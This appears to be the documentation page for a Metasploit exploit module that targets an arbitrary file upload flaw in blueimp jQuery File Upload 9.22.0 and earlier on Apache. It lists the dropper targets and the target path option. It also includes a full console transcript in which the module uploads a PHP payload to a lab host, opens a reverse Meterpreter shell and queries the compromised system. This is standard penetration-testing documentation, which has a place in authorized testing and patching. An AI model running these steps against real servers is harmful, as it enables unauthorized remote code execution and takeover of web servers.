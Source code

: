 ## Intro

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018. It has been present
since the `.htaccess` change in Apache 2.3.9.

This module provides a generic exploit against the jQuery widget.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf5 exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] 172.28.128.3:80 The target appears to be vulnerable.
msf5 exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/FJx2tZWpurPHKIWaYX7sbGTraXTNlRaBB.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54414) at 2018-10-23 07:13:22 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
